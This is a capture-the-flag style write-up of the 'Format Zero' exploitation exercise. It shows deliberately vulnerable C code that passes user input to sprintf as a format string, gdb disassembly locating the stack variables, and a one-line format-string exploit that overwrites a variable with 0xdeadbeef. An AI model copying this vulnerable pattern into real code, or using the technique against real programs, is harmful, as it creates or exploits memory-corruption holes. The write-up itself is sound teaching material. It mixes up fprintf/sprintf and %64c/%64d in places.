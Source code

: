# Format Zero

> This level introduces format strings, and how attacker supplied format strings can modify the execution flow of programs.&#x20;
>
>
>
> **Hints**
>
> * This level should be done in less than 10 bytes of input.
> * “Exploiting format string vulnerabilities”

## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void vuln(char *string)
{
  volatile int target;
  char buffer[64];

  target = 0;

  sprintf(buffer, string);
  
  if(target == 0xdeadbeef) {
      printf("you have hit the target correctly :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

The program expects one user supplied argument as shown by `vuln(argv[1]);`.

The code then uses `sprintf` which is where the vulnerability lies.

```
## Bugs

Because **sprintf**() and **vsprintf**() assume an arbitrarily long string, callers must be careful not to overflow the actual space; this is often impossible to assure. Note that the length of the strings produced is locale-dependent and difficult to predict. Use **snprintf**() and **vsnprintf**() instead (or **[asprintf](https://linux.die.net/man/3/asprintf)**(3) and **[vasprintf](https://linux.die.net/man/3/vasprintf)**(3)).

Linux libc4.[45] does not have a **snprintf**(), but provides a libbsd that contains an **snprintf**() equivalent to **sprintf**(), that is, one that ignores the _size_ argument. Thus, the use of **snprintf**() with early libc4 leads to serious security problems.

Code such as **printf(**_foo_**);** often indicates a bug, since _foo_ may contain a % character. If _foo_ comes from untrusted user input, it may contain **%n**, causing the **printf**() call to write to memory and creating a security hole.
```

Before we exploit the program, we need to know how the stack is laid out.

Let's disassemble the `vuln` function.

```
(gdb) disass vuln
Dump of assembler code for function vuln:
0x080483f4 <vuln+0>:    push   ebp
0x080483f5 <vuln+1>:    mov    ebp,esp
0x080483f7 <vuln+3>:    sub    esp,0x68
0x080483fa <vuln+6>:    mov    DWORD PTR [ebp-0xc],0x0
0x08048401 <vuln+13>:   mov    eax,DWORD PTR [ebp+0x8]
0x08048404 <vuln+16>:   mov    DWORD PTR [esp+0x4],eax
0x08048408 <vuln+20>:   lea    eax,[ebp-0x4c]
0x0804840b <vuln+23>:   mov    DWORD PTR [esp],eax
0x0804840e <vuln+26>:   call   0x8048300 <sprintf@plt>
0x08048413 <vuln+31>:   mov    eax,DWORD PTR [ebp-0xc]
0x08048416 <vuln+34>:   cmp    eax,0xdeadbeef
0x0804841b <vuln+39>:   jne    0x8048429 <vuln+53>
0x0804841d <vuln+41>:   mov    DWORD PTR [esp],0x8048510
0x08048424 <vuln+48>:   call   0x8048330 <puts@plt>
0x08048429 <vuln+53>:   leave
0x0804842a <vuln+54>:   ret
```

We can see that the line at `vuln+26` makes the call to `sprintf`.

```
--snip--;
0x08048408 <vuln+20>:   lea    eax,[ebp-0x4c]
0x0804840b <vuln+23>:   mov    DWORD PTR [esp],eax
0x0804840e <vuln+26>:   call   0x8048300 <sprintf@plt>
--snip--;
```

The first argument is the address `ebp-0x4c` and it is loaded into `eax`.

If we look at the man page of `sprintf` we can see that the first argument is a pointer to the buffer.

```c
int sprintf(char *restrict s, const char *restrict format, ...);
```

Looking back at the disassembled code of `vuln` at `vuln+34` a comparison is being made.

```
--snip--;

0x08048413 <vuln+31>:   mov    eax,DWORD PTR [ebp-0xc]
0x08048416 <vuln+34>:   cmp    eax,0xdeadbeef

--snip--;
```

This is checking if the `target` variable is set to `0xdeadbeef`. The value being compared is being moved from `ebp-0xc`.

So we know the location of the `buffer` as well as the `target` variable. Let's find the distance between them.

```
(gdb) p/d 0x4c - 0xc
$1 = 64
```

So the distance is 64 bytes but we have been instructed to use less than 10 bytes. Which means a classic buffer overflow will not work.

This is where the [format string attack](https://owasp.org/www-community/attacks/Format\_string\_attack) comes in.

Instead of submitting 64 bytes of padding we can submit the format string `%64c` which translates to 64 characters.

When `fprintf` is executed, it takes the bytes after the format string and overwrites the `target` variable.

## Exploit

```
$ ./format0 $(python -c 'print "%64d\xef\xbe\xad\xde"')
you have hit the target correctly :)
```

Note that you can use other format specifiers mentioned [here](https://owasp.org/www-community/attacks/Format\_string\_attack).
